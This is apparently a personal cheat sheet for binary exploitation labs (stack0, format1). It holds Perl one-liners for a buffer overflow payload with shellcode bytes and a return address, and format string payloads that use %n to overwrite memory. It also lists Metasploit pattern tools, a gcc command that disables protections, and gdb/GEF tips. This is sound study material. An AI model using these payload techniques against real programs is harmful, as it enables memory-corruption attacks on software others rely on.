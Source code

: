 -   Using PERL for argument.
    ---------------------------------------------------------------------------------------------------------------------------
`perl -e 'print  "\x31\xc0\x50\x68\" . "A"x76 . "\x28\xf4\xff\xbf" '`
`perl -e 'print  "A"x100 '`
inside gdb# run $(perl -e 'print "A"x100')
 
-   Patterns for rewrite 
    ---------------------------------------------------------------------------------------------------------------------------
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 63413563 


-   Compile in Kali with no protection
    ---------------------------------------------------------------------------------------------------------------------------
gcc stack0.c -o stack0 -fno-stack-protector -z execstack -no-pie -m32 -ggdb


-   HEX file representation
    ---------------------------------------------------------------------------------------------------------------------------
xxd pattern
00000000: 4161 3041 6131 4161 3241 6133 4161 3441  Aa0Aa1Aa2Aa3Aa4A
00000010: 6135 4161 3641 6137 4161 3841 6139 4162  a5Aa6Aa7Aa8Aa9Ab

-   Strings search
    ---------------------------------------------------------------------------------------------------------------------------
strings filename
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A


-   Format string example
    ---------------------------------------------------------------------------------------------------------------------------
run $(perl -e 'print "\xcc\xcc\xcc". "\x38\x96\x04\x08" . "%x"x165 . "%n"')
 - \x38\x96\x04\x08 address of parameter to change
 - %n should be padded exactly to location of string "\x38\x96\x04\x08" in the stack
 
First find the writable parameter with %x - in our case %6$x:
perl -e 'print  "AAAABBBB"."\x24\x97\x04\x08"."\x26\x97\x04\x08"."%6\$33956x" ."%6\$n"."%7\$33616x" ."%7\$n" ' > exploit

To make:  0x8049724:	0x080484b8
1) we write 84b8 at 0x8049724
2) we write 010804 at 0x8049726 ( + something to 84b8)
  
-   File info
    ---------------------------------------------------------------------------------------------------------------------------
show  dynamic lynced libraries#     ldd format1
show  calls #                       strace ./format1


-   GEF
    ---------------------------------------------------------------------------------------------------------------------------
- to divide output into 2 windows
run gef in tmux session#    tmux new-session -s shared
run gef #                   gdb -q ./binnary
crutch to make it work#     gef config gef.debug 1


	

